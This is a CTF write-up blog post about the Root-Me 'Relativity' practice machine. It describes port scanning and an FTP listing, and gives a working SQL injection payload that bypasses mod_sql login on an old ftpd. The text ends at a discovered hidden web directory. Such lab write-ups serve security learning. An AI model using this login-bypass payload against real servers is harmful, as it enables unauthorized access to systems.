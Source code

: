 ```yaml
---
layout: post
title: "/dev/random: Relativity"
modified: Sat Nov 26 17:22:14 GMT 2016
categories: posts
tags: [CTF, security, RootMe]
comments: true
share: true
date: Sat Nov 26 17:22:14 GMT 2016
---
```


Writeup by [npny](https://github.com/npny) and [nobe4](https://github.com/nobe4).

`nmap` reveals the following open ports: `21`,`22`, `80`.

The `HTTP` does not reveal anything special, static `HTML`.

On the ports `21` and `22` the default/basic username don't work.

We can see the `FTP` on port `21` is an old `ftpd` version with the `mod_sql` activated.

[From](http://phrack.org/issues/67/7.html) [various](https://www.exploit-db.com/exploits/43/) [links](https://www.exploit-db.com/exploits/32798/) we understand that there is a `SQL` injection on this plugin that allow a user to login without valid credentials.

Using the code on [this exploit](http://www.securityfocus.com/bid/33722/exploit) doesn't work but changing the `--` with `#` (another comment symbol) works, the payload is:

{% highlight bash %}
username: %') and 1=2 union select 1,1,uid,gid,homedir,shell from users;#
password: 1
{% endhighlight %}

It seems the `FTP` is in [passive mode](http://slacksite.com/other/ftp.html), which doesn't really matter, but was interesting to understand. Now we are logged in, we can see what is available in the `FTP`:

{% highlight ftp%}
ftp> ls /
---> PORT 192,168,1,72,249,154
200 PORT command successful
---> LIST /
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 Mar  5  2013 0f756638e0737f4a0de1c53bf8937a08
-rw-r--r--   1 root     root       235423 Mar  5  2013 artwork.jpg
-rw-r--r--   1 root     root          130 Mar  5  2013 index.html
226 Transfer complete.
{% endhighlight %}

We can't get any file as the are owned by root, but we can see a _hidden_ directory `0f756638e0737f4a0de1c53bf8937a08`, accessible by `HTTP`:

{% highlight bash %}
http://ctf02.root-me.org/0f756638e0737f4a0de1c53bf8937a08/
{% endhighlight %}
